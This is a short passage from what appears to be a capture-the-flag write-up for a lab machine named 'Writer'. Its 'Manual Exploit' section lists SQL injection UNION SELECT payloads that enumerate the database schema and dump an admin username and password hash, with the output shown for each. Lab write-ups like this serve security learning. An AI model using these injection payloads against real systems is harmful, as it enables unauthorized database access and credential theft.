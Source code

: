 ![image-20240206200057008](./Writer.assets/image-20240206200057008.png)

**Manual Exploit**:

However, the hash value is unable to crack.

```console
'union select 1,database(),2,3,4,5,6;-- - => writer
' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata;-- - => information_schema,writer
' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database();-- - => site,stories,users
' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='users';-- - => id,username,password,email,status,date_created
' union select 1,concat(username,':',password),3,4,5,6 from writer.users;-- - => admin:118e48794631a9612484ca8b55f622d0 -> unable to crack
```
